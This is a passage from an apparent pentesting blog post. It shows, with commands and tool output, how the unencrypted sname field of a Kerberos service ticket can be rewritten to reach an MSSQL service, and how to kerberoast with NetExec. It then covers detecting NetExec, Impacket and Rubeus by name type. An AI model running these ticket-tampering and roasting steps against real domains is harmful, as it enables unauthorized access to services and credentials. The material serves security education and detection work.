In the (now deleted) blog post by [Alberto Solino](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more/), he found that the service ticket's encrypted portion only includes the session key. The service will respect the **unencrypted** `sname` fields in the `AP_REQ`, and would not be able to know if it was tampered with!

We can prove the above by decrypting the service ticket with the service's RC4 hash:

```
kinit async_testuser-001@ASIA.EARTH.LOCAL
kvno MSSQLSvc/SQL01.asia.earth.local

describeTicket.py /tmp/krb5cc_1000 -u 'svc_sql' -d 'asia.earth.local' --rc4 'e19ccf75ee54e06b06a5907af13cef42'
[...snip...]

# everything here CAN be tampered with!
[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : MSSQLSvc/SQL01.asia.earth.local
[*]   Service Realm               : ASIA.EARTH.LOCAL
[*]   Encryption type             : rc4_hmac (etype 23)

# anything here, cannot be tampered with!
[*] Decoding credential[0]['ticket']['enc-part']:
[*]   LoginInfo                   
[*]     Logon Time                : 29/06/2025 18:32:17 PM
[*]     Logoff Time               : Infinity (absolute time)
[*]     Kickoff Time              : Infinity (absolute time)
[*]     Password Last Set         : 19/06/2025 00:14:22 AM
[*]     Password Can Change       : 19/06/2025 00:14:22 AM
[*]     Password Must Change      : Infinity (absolute time)
[*]     LastSuccessfulILogon      : Infinity (absolute time)
[*]     LastFailedILogon          : Infinity (absolute time)
[*]     FailedILogonCount         : 0
[*]     Account Name              : async_testuser-001
[*]     Full Name                 : 
[*]     Logon Script              : 
[*]     Profile Path              : 
[*]     Home Dir                  : 
[*]     Dir Drive                 : 
[*]     Logon Count               : 134
[*]     Bad Password Count        : 2
[*]     User RID                  : 1618
[*]     Group RID                 : 513
[*]     Group Count               : 5
[*]     Groups                    : 1824, 1823, 513, 2602, 1617
[*]     Groups (decoded)          : (513) Domain Users
[*]                                 +4 Unknown custom groups
[*]     User Flags                : (32) LOGON_EXTRA_SIDS
[*]     User Session Key          : 00000000000000000000000000000000
[*]     Logon Server              : DC02
[*]     Logon Domain Name         : ASIA
[*]     Logon Domain SID          : S-1-5-21-114237654-1594001096-2651204834
[*]     User Account Control      : (16) USER_NORMAL_ACCOUNT
[*]     Extra SID Count           : 1
[*]     Extra SIDs                : S-1-18-1 Authentication authority asserted identity (SE_GROUP_MANDATORY, SE_GROUP_ENABLED_BY_DEFAULT, SE_GROUP_ENABLED)
[*]     Resource Group Domain SID :
[*]     Resource Group Count      : 0
[*]     Resource Group Ids        : 
[*]     LMKey                     : 0000000000000000
[*]     SubAuthStatus             : 0
[*]     Reserved3                 : 0
[*]   ClientName                  
[*]     Client Id                 : 29/06/2025 18:33:56 PM
[*]     Client Name               : async_testuser-001
[*]   UpnDns                      
[*]     Flags                     : (3) U_UsernameOnly, S_SidSamSupplied
[*]     UPN                       : async_testuser-001@asia.earth.local
[*]     DNS Domain Name           : ASIA.EARTH.LOCAL
[*]     SamAccountName            : async_testuser-001
[*]     UserSid                   : S-1-5-21-114237654-1594001096-2651204834-1618
[*]   ServerChecksum              
[*]     Signature Type            : hmac_md5
[*]     Signature                 : dae80b2f006b857bbdaaac2c9847e5a2
[*]   KDCChecksum                 
[*]     Signature Type            : hmac_sha1_96_aes256
[*]     Signature                 : e0108df38e83f1eec7587914
[...snip...]
```

We can use [the following script](https://gist.github.com/gatariee/b5fe4986715143b74dc1d90cf6123685) to take our "empty" service ticket, and inject the `MSSQLSVC/SQL01.asia.earth.local` service name into the `sname` field.

```
python3 hmmST.py 

[original] current_service: svc_sql@ASIA.EARTH.LOCAL
[modified] new_service: MSSQLSVC/SQL01.ASIA.EARTH.LOCAL@ASIA.EARTH.LOCAL
```

We can then use `klist` to verify that the service ticket is now being recognized as a valid service ticket for the `MSSQLSVC/SQL01.asia.earth.local` service:

```
> cp 'HMMMMM@MSSQLSVC_SQL01.ASIA.EARTH.LOCAL_ASIA.EARTH.LOCAL.ccache' /tmp/krb5cc_$(id -u)

> klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: async_testuser-001@ASIA.EARTH.LOCAL

Valid starting       Expires              Service principal
06/29/2025 15:21:21  06/30/2025 01:21:20  MSSQLSVC/SQL01.ASIA.EARTH.LOCAL@ASIA.EARTH.LOCAL
        renew until 06/30/2025 15:21:22
```

We can now use this service ticket to access the `MSSQLSvc/SQL01.asia.earth.local` service!

```
export KRB5CCNAME=/tmp/krb5cc_$(id -u)
mssqlclient.py -k -no-pass SQL01.asia.earth.local       

Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(sql01): Line 1: Changed database context to 'master'.
[*] INFO(sql01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL (ASIA\async_testuser-001  guest@master)> 
```

### Detection Opportunities

While detection and response is generally out of the pentesting scope, and more related to red and/or purple teaming, it is still a fun exercise to think about how you would detect this kind of activity.

#### NetExec

When performing a `kerberoasting` attack with `nxc`, by default they will use the `NT_MS_PRINCIPAL` name type - which I ironically couldn't find any documentation for - with the `{{realm}}\\{{samaccount_name}}` format.

```python
# https://github.com/Pennyw0rth/NetExec/blob/main/nxc/protocols/ldap.py#L1065
if TGT:
        downLevelLogonName = f"{self.targetDomain}\\{user['sAMAccountName']}"
        try:
        principalName = Principal()
        principalName.type = constants.PrincipalNameType.NT_MS_PRINCIPAL.value
        principalName.components = [downLevelLogonName]

        tgs, cipher, oldSessionKey, sessionKey = getKerberosTGS(
                principalName,
                self.domain,
                self.kdcHost,
                TGT["KDC_REP"],
                TGT["cipher"],
                TGT["sessionKey"],
        )
```

The following command was used to perform the attack:

```
nxc ldap dc02.asia.earth.local -u 'async_testuser-001' -p 'P@ssw0rd' --kerberoast kerberoast.out
```

And, we'll find the the `TGS-REQ` with the `NT_MS_PRINCIPAL` name type with the `sname-string` set to `asia.earth.local\svc_sql`.



Based on my (limited) testing, I have not yet found an extension (i.e. `s4u2self, u2u, etc.`) that legitimately uses the `NT_MS_PRINCIPAL` name type, so this is a good indicator that something is amiss.

It may be more feasible for you to build detections based on known legitimate name types that your service uses, get your nearest engineer to start running wireshark!

#### Impacket

Similar to `nxc`, Impacket's `GetUserSPNs.py` script will use the `NT_MS_PRINCIPAL` name type by default.

```python
# https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py#L348
try:
principalName = Principal()
principalName.type = constants.PrincipalNameType.NT_MS_PRINCIPAL.value
principalName.components = [downLevelLogonName]

tgs, cipher, oldSessionKey, sessionKey = getKerberosTGS(principalName, self.__domain,
                                                        self.__kdcIP,
                                                        TGT['KDC_REP'], TGT['cipher'],
                                                        TGT['sessionKey'])
```

#### Rubeus

Roasting with Rubeus is far more "standard" than the previous two tools, as it will query LDAP for the `servicePrincipalName` attribute of the service account, and then use that to request a service ticket.

```c#
// https://github.com/GhostPack/Rubeus/blob/master/Rubeus/lib/Roast.cs#L635
if ((!String.IsNullOrEmpty(domain)) && (TGT == null))
{
        servicePrincipalName = String.Format("{0}@{1}", servicePrincipalName, domain);
}

// [...snip...]

bool result = GetTGSRepHash(TGT, servicePrincipalName, samAccountName, distinguishedName, outFile, simpleOutput, enterprise, dc, etype);

// [...snip...]
// #L862
string tgtUserName = TGT.enc_part.ticket_info[0].pname.name_string[0];
string domain = TGT.enc_part.ticket_info[0].prealm.ToLower();
Ticket ticket = TGT.tickets[0];
byte[] clientKey = TGT.enc_part.ticket_info[0].key.keyvalue;
Interop.KERB_ETYPE etype = (Interop.KERB_ETYPE)TGT.enc_part.ticket_info[0].key.keytype;
byte[] tgsBytes = Ask.TGS(tgtUserName, domain, ticket, clientKey, etype, spn, requestEType, null, false, domainController, false, enterprise, false, false, null, tgtDomain);

if (tgsBytes != null)
{
        KRB_CRED tgsKirbi = new KRB_CRED(tgsBytes);
        DisplayTGShash(tgsKirbi, true, userName, tgtDomain, outFile, simpleOutput);
        Console.WriteLine();
        return true;
}
return false;
```

The `name-type` used is `NT_SRV_INST`, which is `2` as per [RFC 4120, Section 6.2](https://datatracker.ietf.org/doc/html/rfc4120#section-6.2) and a legitimate SPN.



Unlike `nxc` and `impacket`, this seems much more legitimate. At which point, you'll have to compare the encryption types. This follows the same methodology and principles as the above, take it as a challenge to figure out how you would detect this kind of activity.

The following links should get you started:
* [https://redsiege.com/tools-techniques/2020/10/detecting-kerberoasting/#RC4_Encryption](https://redsiege.com/tools-techniques/2020/10/detecting-kerberoasting/#RC4_Encryption)
* [https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/kerberoasting/](https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/kerberoasting/)